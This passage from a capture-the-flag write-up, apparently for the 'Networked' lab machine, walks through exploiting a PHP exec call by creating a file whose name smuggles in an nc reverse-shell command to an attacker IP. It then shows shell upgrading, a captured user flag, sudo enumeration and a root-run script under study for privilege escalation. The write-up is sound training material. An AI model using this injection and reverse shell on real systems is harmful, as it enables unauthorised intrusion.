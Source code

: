 ```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

`$value` has to be replaced by a malicious bash command beginning with `;` so that we can another command.

```bash
$ cd /var/www/html/uploads/
$ touch '; nc -c bash 10.10.14.7 4444'
```

![guly shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/guly-bash.png)

## User (guly)

- Flag:

```bash
python -c "import pty; pty.spawn('/bin/sh');"  
sh-4.2$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
```

Let's run `sudo -l` with guly:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
$ ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
```

Since we only we only can read or execute `changename.sh`, we cannot replace `changename.sh`'s content by a malicious one.

Let's examine wath's in `changename.sh`:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
```
